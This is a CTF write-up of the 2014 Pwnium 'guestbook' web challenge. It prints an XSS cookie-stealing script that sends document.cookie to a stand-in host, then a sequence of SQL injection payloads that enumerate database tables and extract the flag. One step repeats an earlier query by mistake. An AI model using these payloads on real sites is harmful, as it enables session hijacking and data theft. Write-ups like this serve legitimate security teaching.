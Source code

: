 ```yaml
---
layout: post
title:  "Guestbook - SQL Injection (Pwnium CTF)"
date:   2014-07-19 18:15:00
categories: writeups
author: Joey Geralnik
tags: sqli
---
```

This is a writeup of the challenge guestbook from the 2014 Pwnium CTF.

See my [previous post]({% post_url 2014-07-19-2048 %}) for some details about the competition.

This was a relatively simple SQL injection level but there are no writeups available online and I saw some people requesting one.

## The challenge
We are given the url of a [website](http://41.231.53.43:8383/) and told to find the key.

Luckily the website is still up so I was able to recreate my exploit (note to self: take better notes in the future).

## XSS?
The first thing we noticed after logging in to the website and trying to create a post is that the form is vulnerable to xss. If we enter a post with the title:

    <script>alert(document.cookie);</script>

and submit it we will get a popup window.

We can see that there is a cookie called "c" set and that it is accessible through javascript. Trying on another browser, we see that setting "c" is enough to log in as another user.

The next interesting page is the contact page. There we can send a message to the admin that will presumably also be vulnerably to xss. We created a basic cookie stealing exploit - a script that does

    window.location = "http://www.example.com/cookiesteal?" + escape(document.cookie);

sent it to the admin and then waited for the admin to see the message, get redirected to our website, and see his cookie in our server logs.

We waited. And waited.

Eventually we realized that the admin doesn't actually exist and isn't going to be visiting our site.

Time to look for another vulnerability.

## SQLI

Going back to the 'post a comment' page, we see what else we can do (first we should create a new user so we don't have to deal with those alerts from the xss atempt). This time, let's try entering a single quote in the subject

    '

We get an error! Yay! We experiment with quotes and comments to try to enter a valid post. The first one that works is:

Title:

    g', 'h

Content:

    h', 'i') -- 

(Note the space at the end of the line)

This prints out success. We can simplify this and use just the title with:

    abc', 'def', 'ghi') -- 

Which once again works. However, we don't see the post on the page. If the first field is title and the second field is content, we can guess that the third field is the username. That is - the post is being inserted into the database as part of a query of the form `INSERT INTO posts (title, content, user) VALUES (%s, %s, %s);`. My username was xxb - the result of random keyboard mashing. Trying

    abc', 'def', 'xxb') -- 

We again get a success message and this time we can see the post!

## Exploiting

Let's try calling a function instead of the second field:

    abc', version(), 'xxb') -- 
    Result: 5.5.37-0ubuntu0.14.04.1   

A quick google search reveals that 5.5.37 is a mysql version number. Let's try to see what tables the database has:

    abc', (SELECT table_name FROM INFORMATION_SCHEMA.TABLES limit 1), 'xxb') --  
    Result: CHARACTER_SETS

Hmm, not so helpful.

    abc', (SELECT table_name FROM INFORMATION_SCHEMA.TABLES order by
    CREATE_TIME limit 1), 'xxb') --  
    Result: post

Alright!

    abc', (SELECT table_name FROM INFORMATION_SCHEMA.TABLES where
    table_name != 'post' order by CREATE_TIME limit 1), 'xxb') --  
    Result: user
    abc', (SELECT table_name FROM INFORMATION_SCHEMA.TABLES where
    table_name not in ('post', 'user') order by CREATE_TIME limit 1), 'xxb') --  
    Result: flag

Win! I will admit I spent some time examining users and posts and logging in as the admin user before thinking to search for another table.

Now we just need to figure out what columns the table has:

    abc', (SELECT table_name FROM INFORMATION_SCHEMA.TABLES where
    table_name not in ('post', 'user') order by CREATE_TIME limit 1), 'xxb') --  
    Result: flag

Victory?

    abc', (SELECT flag from flag), 'xxb') --  
    Result: Error

Hmm...

    abc', (SELECT flag from flag LIMIT 1), 'xxb') --  
    Result: ''

Last try:

    abc', (SELECT flag from flag where flag != '' LIMIT 1), 'xxb') --  
    Pwnium{a6f33b4062b8bdcf3fe12e024568f67b}

Yay! That's the flag!
